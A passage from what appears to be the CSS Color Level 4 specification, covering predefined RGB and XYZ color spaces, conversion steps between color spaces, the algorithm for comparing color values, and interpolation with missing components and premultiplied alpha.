  | White chromaticity | D65 |  |
  | Transfer function | see below |  |
  | White luminance | 80.0 cd/m2 |  |
  | Black luminance | 0.20 cd/m2 |  |
  | Image state | display-referred |  |
  | Percentages | Allowed for R, G and B |  |
  | Percent reference range | for R,G,B: 0% = 0.0, 100% = 1.0 |  |

  ```javascript
  let sign = c < 0? -1 : 1;
  let abs = Math.abs(c);

  if (abs <= 0.04045) {
    cl = c / 12.92;
  }
  else {
    cl = sign * (Math.pow((abs + 0.055) / 1.055, 2.4));
  }
  ```

  c is the gamma-encoded red, green or blue component. cl is the corresponding linear-light component.

  

  Visualization of the sRGB color space in Oklch. The primaries and secondaries are shown.

#### 10.3.  The Predefined Linear-Light sRGB Color Space: the `srgb-linear` keyword {#css-color-4:predefined-sRGB-linear}

The **sRGB-linear** predefined color space is the same as `srgb` *except* that the transfer function is linear-light (there is no gamma-encoding).

****srgb-linear****

: The `srgb-linear` [SRGB] color space accepts three numeric parameters, representing the red, green, and blue components of the color. In-gamut colors have all three components in the range [0, 1]. The whitepoint is D65.

  It has the following characteristics:

  |  | x | y |
  | --- | --- | --- |
  | Red chromaticity | 0.640 | 0.330 |
  | Green chromaticity | 0.300 | 0.600 |
  | Blue chromaticity | 0.150 | 0.060 |
  | White chromaticity | D65 |  |
  | Transfer function | unity, see below |  |
  | White luminance | 80.0 cd/m2 |  |
  | Black luminance | 0.20 cd/m2 |  |
  | Image state | display-referred |  |
  | Percentages | Allowed for R, G and B |  |
  | Percent reference range | for R,G,B: 0% = 0.0, 100% = 1.0 |  |

  ```javascript
  cl = c;
  ```

  c is the red, green or blue component. cl is the corresponding linear-light component, which is identical.

  To avoid banding artifacts, a [higher precision is required](#css-color-4:predefined-precision-table) for `srgb-linear` than for `srgb`.

  > **Example:** For example, these are the same color
  >
  > ```css
  >  color(srgb 0.691 0.139 0.259)
  >  color(srgb-linear 0.435 0.017 0.055)
  > ```

#### 10.4.  The Predefined Display P3 Color Space: the `display-p3` keyword {#css-color-4:predefined-display-p3}

****display-p3****

: The `display-p3` [Display-P3] color space accepts three numeric parameters, representing the red, green, and blue components of the color. In-gamut colors have all three components in the range [0, 1]. It uses the same primary chromaticities as [DCI-P3], but with a D65 whitepoint, and the same transfer curve as sRGB.

  Modern displays, TVs, laptop screens and phone screens are able to display all, or nearly all, of the display-p3 gamut.

  It has the following characteristics:

  |  | x | y |
  | --- | --- | --- |
  | Red chromaticity | 0.680 | 0.320 |
  | Green chromaticity | 0.265 | 0.690 |
  | Blue chromaticity | 0.150 | 0.060 |
  | White chromaticity | D65 |  |
  | Transfer function | same as srgb |  |
  | White luminance | 80.0 cd/m2 |  |
  | Black luminance | 0.80 cd/m2 |  |
  | Image state | display-referred |  |
  | Percentages | Allowed for R, G and B |  |
  | Percent reference range | for R,G,B: 0% = 0.0, 100% = 1.0 |  |

  

  Visualization of the P3 color space in Oklch. The primaries and secondaries are shown (but in sRGB, not in the correct colors). For comparison, the sRGB primaries and secondaries are also shown, as dashed circles. P3 primaries have higher Chroma.

#### 10.5.  The Predefined Linear-Light Display P3 Color Space: the `display-p3-linear` keyword {#css-color-4:predefined-display-p3-linear}

****display-p3-linear****

: The `display-p3-linear` predefined color space is the same as `display-p3` *except* that the transfer function is linear-light (there is no gamma-encoding).

  It has the following characteristics:

  |  | x | y |
  | --- | --- | --- |
  | Red chromaticity | 0.680 | 0.320 |
  | Green chromaticity | 0.265 | 0.690 |
  | Blue chromaticity | 0.150 | 0.060 |
  | White chromaticity | D65 |  |
  | Transfer function | unity, see below |  |
  | White luminance | 80.0 cd/m2 |  |
  | Black luminance | 0.80 cd/m2 |  |
  | Image state | display-referred |  |
  | Percentages | Allowed for R, G and B |  |
  | Percent reference range | for R,G,B: 0% = 0.0, 100% = 1.0 |  |

  ```javascript
  cl = c;
  ```

  c is the red, green or blue component. cl is the corresponding linear-light component, which is identical.

  To avoid banding artifacts, a [higher precision is required](#css-color-4:predefined-precision-table) for `display-p3-linear` than for `display-p3`.

  > **Example:** For example, these are the same color
  >
  > ```css
  >  color(display-p3 0.591 0.123 0.264)
  >  color(display-p3-linear 0.3081 0.014 0.0567)
  > ```

#### 10.6.  The Predefined A98 RGB Color Space: the `a98-rgb` keyword {#css-color-4:predefined-a98-rgb}

****a98-rgb****

: The `a98-rgb` color space accepts three numeric parameters, representing the red, green, and blue components of the color. In-gamut colors have all three components in the range [0, 1]. The transfer curve is a gamma function, close to but not exactly 1/2.2.

  It has the following characteristics:

  |  | x | y |
  | --- | --- | --- |
  | Red chromaticity | 0.6400 | 0.3300 |
  | Green chromaticity | 0.2100 | 0.7100 |
  | Blue chromaticity | 0.1500 | 0.0600 |
  | White chromaticity | D65 |  |
  | Transfer function | 256/563 |  |
  | White luminance | 160.0 cd/m2 |  |
  | Black luminance | 0.5557 cd/m2 |  |
  | Image state | display-referred |  |
  | Percentages | Allowed for R, G and B |  |
  | Percent reference range | for R,G,B: 0% = 0.0, 100% = 1.0 |  |

  

  Visualization of the A98 color space in Oklch. The primaries and secondaries are shown (but in sRGB, not in the correct colors). For comparison, the sRGB primaries and secondaries are also shown, as dashed circles. a98 primaries have higher Chroma, especially the yellow, green and cyan.

#### 10.7.  The Predefined ProPhoto RGB Color Space: the `prophoto-rgb` keyword {#css-color-4:predefined-prophoto-rgb}

****prophoto-rgb****

: The `prophoto-rgb` color space accepts three numeric parameters, representing the red, green, and blue components of the color. In-gamut colors have all three components in the range [0, 1]. The transfer curve is a gamma function with a value of 1/1.8, and a small linear portion near black. The white point is D50, the same as is used by CIE Lab. Thus, conversion to CIE Lab does not require the chromatic adaptation step.

  The ProPhoto RGB space uses hyper-saturated, non physically realizable primaries. These were chosen to allow a wide color gamut and in particular, to minimize hue shifts under tonal manipulation. It is often used in digital photography as a wide gamut color space for the archival version of photographic images. The `prophoto-rgb` color space allows CSS to specify colors that will match colors in such images having the same RGB values.

  The ProPhoto RGB space was originally developed by Kodak and is described in [Wolfe]. It was standardized by ISO as [ROMM],[ROMM-RGB].

  The white luminance is given as a range, and the viewing flare (and thus, the black luminance) is 0.5% to 1.0% of this.

  It has the following characteristics:

  |  | x | y |
  | --- | --- | --- |
  | Red chromaticity | 0.734699 | 0.265301 |
  | Green chromaticity | 0.159597 | 0.840403 |
  | Blue chromaticity | 0.036598 | 0.000105 |
  | White chromaticity | D50 |  |
  | Transfer function | see below |  |
  | White luminance | 160.0 to 640.0 cd/m2 |  |
  | Black luminance | See text |  |
  | Image state | display-referred |  |
  | Percentages | Allowed for R, G and B |  |
  | Percent reference range | for R,G,B: 0% = 0.0, 100% = 1.0 |  |

  ```javascript
  const E = 16/512;
  let sign = c < 0? -1 : 1;
  let abs = Math.abs(c);

  if (abs <= E) {
    cl =  c / 16;
  }
  else {
    cl = sign * Math.pow(c, 1.8);
  }
  ```

  c is the gamma-encoded red, green or blue component. cl is the corresponding linear-light component.

  

  Visualization of the prophoto-rgb color space in Oklch. The primaries and secondaries are shown (but in sRGB, not in the correct colors). For comparison, the sRGB primaries and secondaries are also shown, as dashed circles. prophoto-rgb primaries and secondaries have much higher Chroma, but much of this ultrawide gamut does not correspond to physically realizable colors.

#### 10.8.  The Predefined ITU-R BT.2020-2 Color Space: the `rec2020` keyword {#css-color-4:predefined-rec2020}

****rec2020****

: The `rec2020` [Rec.2020] color space accepts three numeric parameters, representing the red, green, and blue components of the color. In-gamut colors have all three components in the range [0, 1], ("full-range", in video terminology). ITU Reference 2020 is used for Ultra High Definition, 4k and 8k television.

  The primaries are physically realizable, but with difficulty as they lie very close to the spectral locus.

  Current displays are unable to reproduce the full gamut of rec2020. Coverage is expected to increase over time as displays improve.

  It has the following characteristics:

  |  | x | y |
  | --- | --- | --- |
  | Red chromaticity | 0.708 | 0.292 |
  | Green chromaticity | 0.170 | 0.797 |
  | Blue chromaticity | 0.131 | 0.046 |
  | White chromaticity | D65 |  |
  | Transfer function | gamma 2.40, from [REC_BT.1886] |  |
  | Image state | display-referred |  |
  | Percentages | Allowed for R, G and B |  |
  | Percent reference range | for R,G,B: 0% = 0.0, 100% = 1.0 |  |

  

  Visualization of the rec2020 color space in Oklch. The primaries and secondaries are shown (but in sRGB, not in the correct colors). For comparison, the sRGB primaries and secondaries are also shown, as dashed circles. rec2020 primaries have much higher Chroma.

#### 10.9.  The Predefined CIE XYZ Color Spaces: the `xyz-d50`, `xyz-d65`, and `xyz` keywords {#css-color-4:predefined-xyz}

****xyz-d50**, **xyz-d65**, **xyz****

: The `xyz` color space accepts three numeric parameters, representing the X,Y and Z values. It represents the CIE XYZ [COLORIMETRY] color space, scaled such that diffuse white has a luminance (Y) of 1.0. and, if necessary, chromatically adapted to the reference white.

  The reference white for `xyz-d50` is D50, while the reference white for `xyz-d65` and `xyz` is D65.

  Values greater than 1.0/100% are allowed and must not be clamped; colors where Y is greater than 1.0 represent colors brighter than diffuse white. Values less than 0/0% are uncommon, but can occur as a result of chromatic adaptation, and likewise must not be clamped.

  It has the following characteristics:

  | Percentages | Allowed for X,Y,Z |
  | --- | --- |
  | Percent reference range | for X,Y,Z: 0% = 0.0, 100% = 1.0 |

  > **Example:** These are exactly equivalent:
  >
  > ```css
  >  #7654CD
  >  rgb(46.27451% 32.94118% 80.39216%)
  >  lab(44.35772% 36.0479 -58.9859)
  >  oklab(54.43237% 0.0681665 -0.1656703)
  >  color(xyz-d50 0.2004941 0.140872 0.4470838)
  >  color(xyz-d65 0.216595 0.1459994 0.594365)
  > ```

  > **Example:** These colors are exactly equivalent, and represent white:
  >
  > ```css
  >  #FFFFFF
  >  color(xyz-d50 0.9642957 1 0.8251046)
  >  color(xyz-d65 0.9504559 1 1.089058)
  > ```

#### 10.10.  Converting Predefined Color Spaces to Lab or Oklab {#css-color-4:predefined-to-lab-oklab}

For all predefined RGB color spaces, conversion to Lab requires several steps, although in practice all but the first step are linear calculations and can be combined.

1. Convert from gamma-encoded RGB to linear-light RGB (undo gamma encoding)
2. Convert from linear RGB to CIE XYZ
3. If needed, convert from a D65 whitepoint (used by `sRGB`, `display-p3`, `a98-rgb` and `rec2020`) to the D50 whitepoint used in Lab, with the linear Bradford transform. `prophoto-rgb` already has a D50 whitepoint.
4. Convert D50-adapted XYZ to Lab

Conversion to Oklab is similar, but the chromatic adaptation step is only needed for `prophoto-rgb`.

1. Convert from gamma-encoded RGB to linear-light RGB (undo gamma encoding)
2. Convert from linear RGB to CIE XYZ
3. If needed, convert from a D50 whitepoint (used by `prophoto-rgb`) to the D65 whitepoint used in Oklab, with the linear Bradford transform.
4. Convert D65-adapted XYZ to Oklab

There is sample JavaScript code for these conversions in [§ 19 Sample code for Color Conversions](#css-color-4:color-conversion-code).

#### 10.11.  Converting Lab or Oklab to Predefined RGB Color Spaces {#css-color-4:oklab-lab-to-predefined}

Conversion from Lab to predefined spaces like `display-p3` or `rec2020` also requires multiple steps, and again in practice all but the last step are linear calculations and can be combined.

1. Convert Lab to (D50-adapted) XYZ
2. If needed, convert from a D50 whitepoint (used by Lab) to the D65 whitepoint used in sRGB and most other RGB spaces, with the linear Bradford transform. `prophoto-rgb`' does not require this step.
3. Convert from (D65-adapted) CIE XYZ to linear RGB
4. Convert from linear-light RGB to RGB (do gamma encoding)

Conversion from Oklab is similar, but the chromatic adaptation step is only needed for `prophoto-rgb`.

1. Convert Oklab to (D65-adapted) XYZ
2. If needed, convert from a D65 whitepoint (used by Oklab) to the D50 whitepoint used in `prophoto-rgb`, with the linear Bradford transform.
3. Convert from (D65-adapted) CIE XYZ to linear RGB
4. Convert from linear-light RGB to RGB (do gamma encoding)

There is sample JavaScript code for these conversions in [§ 19 Sample code for Color Conversions](#css-color-4:color-conversion-code).

Implementations may choose to implement these steps in some other way (for example, using an ICC profile with relative colorimetric rendering intent) provided the results are the same for colors inside both the source and destination gamuts.

#### 10.12.  Converting Between Predefined RGB Color Spaces {#css-color-4:predefined-to-predefined}

Conversion from one predefined RGB color space to another requires multiple steps, one of which is only needed when the whitepoints differ. To convert from *src* to *dest*:

1. Convert from gamma-encoded *src*RGB to linear-light *src*RGB (undo gamma encoding)
2. Convert from linear *src*RGB to CIE XYZ
3. If *src* and *dest* have different whitepoints, convert the XYZ value from *src*White to *dest*White with the linear Bradford transform.
4. Convert from CIE XYZ to linear *dest*RGB
5. Convert from linear-light *dest*RGB to *dest*RGB (do gamma encoding)

There is sample JavaScript code for this conversion for the predefined RGB color spaces, in [§ 19 Sample code for Color Conversions](#css-color-4:color-conversion-code).

#### 10.13.  Simple Alpha Compositing {#css-color-4:alpha}

When drawing, implementations must handle alpha according to the rules in [Section 5.1 Simple alpha compositing](#compositing-2:simplealphacompositing) of [Compositing].

### 11.  Converting Colors {#css-color-4:color-conversion}

#### 11.1.  Introduction to Converting Colors {#css-color-4:color-convert-intro}

Colors may be converted from one color space to another and, provided that there is no gamut mapping and that each color space can represent out of gamut colors, (for RGB spaces, this means that the transfer function is defined over the extended range) then (subject to numerical precision and round-off error) the two colors will look the same and represent the same color sensation.

> **Example:** For example, these different syntactic forms are all the same color:
>
> - oklch(65% 0.15 270)
> - lab(57.9% 11.4 -53.7)
> - color(display-p3 0.445 0.529 0.891)
> - color(rec2020 0.522 0.557 0.892)
> - #6c88ea

For historical reasons, at **parse time**, some legacy color syntax colors are clamped. In general though such clamping is undesirable because it interferes with round-tripping and results in errors accumulating over multiple color conversions.

Thus, the **results of color conversion** are **not clamped**, which may result in out of gamut colors or indeed, imaginary colors such as colors outside the spectral locus, or even colors with negative lightness or lightness greater than the maximum allowed value.

> **Example:** For example, these are all the same color, but it is outside the gamut of even rec2020 (the swatches have been gamut mapped to sRGB for display, but the values have not):
>
> - oklch(65% 0.25 270)
> - lab(56.03% 32.3 -88.58)
> - color(display-p3 0.3731 0.4673 1.105)
> - color(rec2020 0.4929 0.5062 1.094)
> - color(srgb 0.3475 0.4707 1.146)

> **Example:** For example, due to chromatic adaptation, the lightness value of this XYZ color is slightly greater than 100 when adapted to D50 Lab:
>
> - color(xyz-d65 1 1 1)
> - lab(100.1154% 9.064489 5.801761)

#### 11.2.  Algorithm for Converting Colors {#css-color-4:color-convert-algorithm}

To **prepare a color *col1* for conversion**:

1. Change any powerless components in *src* to missing components
2. If *src* is in a cylindrical polar color representation, convert *col1* to the corresponding rectangular orthogonal color representation and let this be the new *col1*.

To **convert a color** *col1* in a source color space *src* with white point *src-white* to a color *col2* in destination color space *dest* with white point *dest-white*, where *src* and *dest* are *different*:

1. prepare *col1* for conversion
2. Replace any missing component with zero.
3. If *src* is not a linear-light representation, convert it to linear light (undo gamma-encoding) and let this be the new *col1*.
4. Convert *col1* to CIE XYZ with a given whitepoint *src-white* and let this be *xyz*.
5. If *dest-white* is not the same as *src-white*, chromatically adapt *xyz* to *dest-white* using a linear Bradford chromatic adaptation transform, and let this be the new *xyz*.
6. If *dest* is a cylindrical polar color representation, let *dest-rect* be the corresponding rectangular orthogonal color representation. Otherwise, let *dest-rect* be *dest*.
7. Convert *xyz* to *dest*, followed by applying any transfer function (gamma encoding), producing *col2*.
8. If *dest* is a physical output color space, such as a display, then *col2* must be css gamut mapped so that it can be displayed.
9. If *dest-rect* is not the same as *dest*, in other words *dest* is a cylindrical polar color representation, convert from *dest-rect* to *dest*, and let this be *col2*. This may produce missing components.

### 12.  Comparing `<color>` Values {#css-color-4:comparing-color-values}

Two `<color>` values are **equivalent colors** when they compare as equal using the algorithm below. This comparison is used, for example, by `style()` container queries [CSS-CONDITIONAL-5] and by CSS Transitions [CSS-TRANSITIONS-1] to determine whether a color value has changed.

Given two `<color>` values *C1* and *C2*, they are equivalent colors if and only if the following algorithm returns true:

1. For each of *C1* and *C2*, convert any powerless components to missing components.
2. If *C1* and *C2* share the same `<color-space>`:

  1. Compare their components one by one, including the alpha channel. A missing component is only equal to another missing component. Two numeric components are considered equal if they differ by no more than a small implementation-defined ε.
  2. Return true if and only if all components compare as equal.
3. Otherwise, *C1* and *C2* are in different `<color-space>`s. If either color has at least one missing component, return false.
4. Otherwise, neither color has any missing component. Convert both *C1* and *C2* to `oklab`, then return true if and only if all components (including alpha) of the converted colors compare as equal, using a standardized Oklab ε of **0.00001**.

> **Note:** Two colors that are expressed in different syntactic forms, in the same `<color-space>`, but are colorimetrically identical—for example, `red` and `color(srgb 1 0 0)`—are equivalent colors by step 2 of this algorithm.

> **Note:** Two colors that are expressed in different `<color-space>`s but are colorimetrically identical—for example, `red` and `color(display-p3 0.91748756 0.20028681 0.13856059)`—are equivalent colors by step 4 of this algorithm, since they convert to the same `oklab` value.

For the purposes of this comparison, `rgb()`, `rgba()`, `hsl()`, `hsla()`, `hwb()`, hex colors, named colors, and system colors are all considered to be in the `srgb` `<color-space>`.

> **Example:** `red` and  `rgb(255, 0, 0)` are equivalent colors. Both are in the `srgb` `<color-space>`, so step 2 compares their red, green, blue and alpha components, which are all equal.

> **Example:** `red` and  `color(srgb 1 0 0)` are equivalent colors. A named color is considered to be in the `srgb` `<color-space>`, which is also the <color-space> of this `color()` value, so the two are compared component by component at step 2.

> **Example:** `#ff000080` and  `rgb(255 0 0 / 50%)` are *not* equivalent colors, although they are hard to tell apart. The alpha channel is compared like any other component, and 128 / 255 = 0.50196…, which differs from 0.5 by more than a small ε.

> **Example:** `hsl(0 0% 50%)` and  `hsl(200 0% 50%)` are equivalent colors, by either of two routes. Their saturation is 0%, so at step 1 the hue of each becomes a missing component, and a missing component is equal to another missing component. Independently, `hsl()` is considered to be in the `srgb` `<color-space>`, where the hue is not one of the components being compared at all.

> **Example:** `white` and  `hwb(120 100% 0%)` are equivalent colors. Whiteness and blackness sum to 100, so the hue is powerless and becomes missing at step 1; and since `hwb()` is considered to be in the `srgb` `<color-space>`, both colors are compared as R, G and B of 100%.

> **Example:** `oklch(50% 0 40)` and  `oklch(50% 0 200)` are equivalent colors. The chroma is zero, so each hue is powerless and becomes missing at step 1, leaving two colors whose every component compares as equal.

> **Example:** `lch(50% 0.001 30)` and  `lch(50% 0.001 200)` are equivalent colors, even though their chroma is not exactly zero and their hues are 170 degrees apart. A chroma of 0.001 is within the ε of 0.0015 that `lch()` defines for a powerless hue, so at step 1 both hues become missing and both chromas are set to zero.

> **Example:** `lch(50% 30 0)` and  `lch(50% 30 360)` are equivalent colors, but not because of anything this algorithm does: a `<hue>` is normalized to the range [0, 360) when it is parsed, so by the time the two are compared both hue components are 0.

> **Example:** `rgb(none 128 0)` and  `rgb(0 128 0)` are *not* equivalent colors, although they render identically, since a missing component behaves as zero when a color is displayed. For the purposes of this comparison a missing component is only ever equal to another missing component, never to a component whose value happens to be zero.

> **Example:** `oklch(50% 0 none)` and  `oklab(50% 0 0)` are *not* equivalent colors, despite being colorimetrically identical. They are in different `<color-space>`s, and the first has a missing component, so step 3 returns false without any component values being compared.

> **Example:** `red` and  `color(srgb-linear 1 0 0)` are equivalent colors. They are in different `<color-space>`s and neither has a missing component, so step 4 converts both to `oklab`, where they have the same value.

> **Example:** `color(display-p3 1 1 1)` and  `white` are equivalent colors. Converting each to `oklab` at step 4 leaves component differences of the order of 10-16, which is why that step compares with an ε rather than for exact equality.

> **Example:** `lab(50% 0 0)` and  `oklab(0.5 0 0)` are *not* equivalent colors. Both are achromatic with a lightness of 50%, but the two lightness scales are not the same: converted to `oklab` at step 4 their lightness components are 0.56897 and 0.5, which differ by far more than the standardized ε.

### 13.  Color Interpolation {#css-color-4:interpolation}

Color interpolation happens with gradients, compositing, filters, transitions, animations, and color mixing and color modification functions.

Interpolation between two `<color>` values takes place by executing the following steps:

1. checking the two colors for analogous components and analogous sets which will be **carried forward**
2. (if conversion is required) changing any powerless components to missing values
3. (if required) converting them both to a given color space which will be referred to as the **interpolation color space** below.
4. (if required) re-inserting carried forward values in the converted colors
5. fill in missing components with the other color’s component values
6. (if required) fixing up the hues, depending on the selected `<hue-interpolation-method>`
7. changing the color components to premultiplied form
8. linearly interpolating each component of the computed value of the color separately
9. undoing premultiplication

Interpolating to or from `currentcolor` is possible. The numerical value used for this purpose is the used value.

#### 13.1.  Interpolation and color gamuts {#css-color-4:interpolate-gamut}

When interpolating colors, particularly in a `<polar-color-space>`, the results of color interpolation may fall outside the gamut of a display or a canvas, even if both the starting and ending color are inside the gamut.

> **Example:** For example, consider interpolating between two colors  #1A1 and  #23F, in the `oklch` color space. Because the interpolation follows a curved path, most of the interpolated values are outside the gamut of `srgb` and also of `display-p3`.
>
> 
>
> Interpolation in oklch can produce out of gamut colors even if the end points are in gamut

#### 13.2.  Component-wise Linear Interpolation {#css-color-4:component-wise-linear-interpolation}

There are two ways to conceptualize how much each color component contributes to the final result: color quantities and color progress. Both give the same result; they are just different mental models.

> **Example:** For example, when mixing the lightness components of two colors *La* and *Lb*, the natural mental model is that of a **pair of quantities**: I want 70% of *La* and 30% of *Lb*.

> **Example:** For example, when animating the lightness component of a color, from a starting value of *La* to en ending value of *Lb*, the natural mental model is of a **single progress value** which is 0% at the start of the animation and 100% at the end of the animation. At a progress of 0%, the interpolated component is equal to 100% *La* and 0% of *Lb*; at a progress of 100%, the interpolated component is equal to 0% *La* and 100% of *Lb*. Thus, at a progress of 30%, the interpolated component is equal to 70% of *La* and 30% of *Lb*.

****color quantities****

: Given a pair of percentage quantities *Qa* and *Qb*, which have been normalized to add to 100%, and a pair of color component values *Ca* and *Cb*, the interpolated result is (*Ca* × *Qa*) + ( *Cb* × *Qb*).

****color progress****

: Given a percentage progress *P* and the starting and ending component values *Cs* and *Ce*, the interpolated result is (*Cs* × (1 - *P*) + *Ce* × *P*).

Thus, when converting from one model to another, the progress is the amount of the *second* color.

#### 13.3.  Color Space for Interpolation {#css-color-4:interpolation-space}

Various features in CSS depend on interpolating colors.

> **Example:** s include:
>
> - `<gradient>`
> - `filter`
> - `animation`
> - `transition`
> - `color-mix()`
> - relative color syntax

To interpolate, the colors must be in (or be converted to) the same color space.

Mixing or otherwise combining colors has different results depending on the interpolation color space used. Thus, different color spaces may be more appropriate for each interpolation use case.

- In some cases, the result of physically mixing two colored lights is desired. In that case, the CIE `XYZ`, `display-p3-linear` or `srgb-linear` color spaces are appropriate, because they are linear in light intensity.
- If colors need to be evenly spaced perceptually (such as in a gradient), the `Oklab` color space (and to a lesser extent, the older `Lab`), are designed to be perceptually uniform.
- If avoiding graying out in color mixing is desired, i.e. maximizing chroma throughout the transition, `OkLCh` (and to a lesser extent, the older `LCH`) work well for that.
- Lastly, compatibility with legacy Web content may be the most important consideration. The `sRGB` color space, which is neither linear-light nor perceptually uniform, is the choice here, even though it produces poorer results (overly dark or greyish mixes).

These features are collectively termed the **host syntax**.

To permit a host syntax to indicate the interpolation color space, this specification exports a color-interpolation-method production. It is not used by this specification itself, only exposed so that other specifications can use it; see e.g. use in [CSS Images 4 § 3.1 Linear Gradients: the linear-gradient() notation](#css-images-4:linear-gradients).

The host syntax should define what the *default* interpolation color space should be for each case, and preferably provide syntax for authors to override this default. If such syntax is part of a property value, it should use the color-interpolation-method production, defined below for easy reference from other specifications. This ensures consistency across CSS, and that further customizations on how color interpolation is performed can automatically percolate across all of CSS.

```css
<color-space> = <rectangular-color-space> | <polar-color-space>
<rectangular-color-space> = srgb | srgb-linear | display-p3 | display-p3-linear | a98-rgb | prophoto-rgb | rec2020 | lab | oklab | <xyz-space>
<polar-color-space> = hsl | hwb | lch | oklch
<hue-interpolation-method> = [ shorter | longer | increasing | decreasing ] hue
<color-interpolation-method> = in [ <rectangular-color-space> | <polar-color-space> <hue-interpolation-method>? ]
```

The keywords in the definitions of `<rectangular-color-space>` and `<polar-color-space>` each refer to their corresponding color space, represented in CSS either by the functional syntax with the same name, or (if no such function is present), by the corresponding `<ident>` in the `color()` function.

If the host syntax does not define what color space interpolation should take place in, it defaults to Oklab.

For a `<polar-color-space>` if the `<hue-interpolation-method>` is not specified, it defaults to shorter.

However, user agents *must* handle interpolation between legacy sRGB color formats (hex colors, named colors, `rgb()`, `hsl()` or `hwb()` and the equivalent alpha-including forms) in gamma-encoded sRGB space. This provides Web compatibility; legacy sRGB content interpolates in the sRGB space by default.

This also means that authors can choose to opt-in to better interpolation, even between sRGB colors, by using the non-legacy `color(srgb r g b)` form for at least one of their colors, or by explicitly specifying an interpolation color space.

If the colors to be interpolated are outside the gamut of the interpolation color space , then once converted to that space, they will contain out of range values.

These are not clipped; the values must be interpolated as-is.

#### 13.4.  Interpolating with Missing Components {#css-color-4:interpolation-missing}

In the course of converting the two colors to the interpolation color space, any missing components would be replaced with the value 0.

Thus, the first stage in interpolating two colors is to classify any missing components in the input colors, and compare them to the components of the interpolation color space. If any analogous components which are missing components are found, they will be **carried forward** and re-inserted in the converted color before premultiplication, and before linear interpolation takes place.

Similarly, if every component of an analogous set (defined below) in the original color is a missing component, they are all carried forward and re-inserted in the corresponding analogous set of the interpolation color space.

Alpha is its own analogous component (alpha is analogous to alpha), so a missing alpha is carried forward in exactly the same way as any other missing component.

The **analogous components** are as follows:

| Category | Components |
| --- | --- |
| Reds | r,x |
| Greens | g,y |
| Blues | b,z |
| Lightness | L |
| Colorfulness | C, S |
| Hue | H |
| Opponent a | a |
| Opponent b | b |
| Alpha | alpha |

> **Note:** for the purposes of this classification, the XYZ spaces are considered super-saturated RGB spaces. Also, despite Saturation being Lightness-dependent, it falls in the same category as Chroma here. The Whiteness and Blackness components of HWB have no analogs in other color spaces.

Additionally, for any two color spaces, the components that remain after removing all analogous components form an **analogous set** of components.

> **Note:** Because the full set of all color components is the analogous set that remains when there are no individual analogous components, a color with all color components missing will have all color components missing in the interpolation color space as well.

> **Example:** When converting `lab(50% none none)` to LCH for interpolation, Lightness is individually analogous. The remaining components (`a` and `b` in Lab; `C` and `H` in LCH) form an analogous set. Since both `a` and `b` are missing, both `C` and `H` are carried forward as missing, giving `lch(50% none none)` rather than `lch(50% 0 0)`.
>
> Similarly, `rgb(none none none / 50%)` converted to OKLab for interpolation yields `oklab(none none none / 50%)`, because the three color components form the analogous set (there are no individual analogous components between sRGB and OKLab).

> **Example:** For example, if these two colors are to be interpolated in OkLCh, the missing hue in the CIE LCH color is analogous to the hue component of OkLCh and will be carried forward while the missing blue component in the second color is not analogous to any OkLCh component and will not be carried forward:
>
> ```
>  lch(50% 0.02 none)
>  color(display-p3 0.7 0.5 none)
> ```
>
> which convert to
>
> ```
>  oklch(56.897% 0.0001 0)
>  oklch(63.612% 0.1522 78.748)
> ```
>
> and with carried forward missing component re-inserted, the two colors to be interpolated are:
>
> ```
>  oklch(56.897% 0.0001 none)
>  oklch(63.612% 0.1522 78.748)
> ```

If a color with a carried forward missing component is interpolated with another color which is not missing that component, the missing component is treated as having the *other color’s* component value.

Therefore, the identification of carried-forward components must be performed *before* any powerless component handling; to prevent conversion of that value to zero.

> **Example:** For example, if these two colors are interpolated, the second of which has a missing hue:
>
> ```
>  oklch(78.3% 0.108 326.5)
>  oklch(39.2% 0.4 none)
> ```
>
> Then the actual colors to be interpolated are
>
> ```
>  oklch(78.3% 0.108 326.5)
>  oklch(39.2% 0.4 326.5)
> ```
>
> and not
>
> ```
>  oklch(78.3% 0.108 326.5)
>  oklch(39.2% 0.4 0)
> ```

If the carried forward missing component is alpha, the color must be premultiplied with this carried forward value, not with the zero value that would have resulted from color conversion.

> **Example:** For example, if these two colors are interpolated, the second of which has a missing alpha:
>
> ```
>  oklch(0.783 0.108 326.5 / 0.5)
>  oklch(0.392 0.4 0 / none)
> ```
>
> Then the actual colors to be interpolated are
>
> ```
>  oklch(78.3% 0.108 326.5 / 0.5)
>  oklch(39.2% 0.4 0 / 0.5)
> ```
>
> giving the premultiplied OkLCh values [0.3915, 0.054, 326] and [0.196, 0.2, 0].

If both colors are missing a given component, the interpolated color will also be missing that component.

#### 13.5.  Interpolating with Alpha {#css-color-4:interpolation-alpha}

When the colors to be interpolated are not fully opaque, they are first **premultiplied** as follows:

- If the alpha value is `none`, the premultiplied value is the un-premultiplied value. Otherwise,
- If any component value is `none`, the premultiplied value is also `none`.
- For rectangular orthogonal color coordinate systems, all component values are multiplied by the alpha value.
- For cylindrical polar color coordinate systems, the hue angle is *not* premultiplied, but the other two axes *are* premultiplied.

To obtain a color value from a premultiplied color value,

- If the interpolated alpha value is zero or `none`, the un-premultiplied value is the premultiplied value. Otherwise,
- If any component value is `none`, the un-premultiplied value is also `none`.
- otherwise, each component which had been premultiplied is divided by the interpolated alpha value.

> **Note:** Why is premultiplied alpha useful?
>
> Interpolating colors using the premultiplied representations tends to produce more attractive transitions than the non-premultiplied representations, particularly when transitioning from a fully opaque color to fully transparent.
>
> Note that transitions where either the transparency or the color are held constant (for example, transitioning between `rgba(255, 0, 0, 100%)` (opaque red) and `rgba(0,0,255,100%)` (opaque blue), or `rgba(255,0,0,100%)` (opaque red) and `rgba(255,0,0,0%)` (transparent red)) have identical results whether the color interpolation is done in premultiplied or non-premultiplied color-space. Differences only arise when *both* the color and transparency differ between the two endpoints.
>
> > **Example:** The following example illustrates the difference between a gradient transitioning via pre-multiplied values (in this case sRGB, since all colors involved are legacy colors) and one transitioning (incorrectly) via non-premultiplied values. In both of these examples, the gradient is drawn over a white background. Both gradients could be written with the following value:
> >
> > ```
> > linear-gradient(90deg, red, transparent, blue)
> > ```
> >
> > With premultiplied colors, transitions to or from "transparent" always look nice:
> >
> > (Image requires SVG)
> >
> > On the other hand, if a gradient were to incorrectly transition in non-premultiplied space, the center of the gradient would be a noticeably grayish color, because "transparent" is actually a shorthand for `rgba(0,0,0,0)`, or transparent black, meaning that the red transitions to a black as it loses opacity, and similarly with the blue’s transition:
> >
> > (Image requires SVG)

> **Example:** For example, to interpolate, in the sRGB color space, the two sRGB colors  rgb(24% 12% 98% / 0.4) and  rgb(62% 26% 64% / 0.6) they would first be converted to premultiplied form [9.6% 4.8% 39.2% ] and [37.2% 15.6% 38.4%] before interpolation.
>
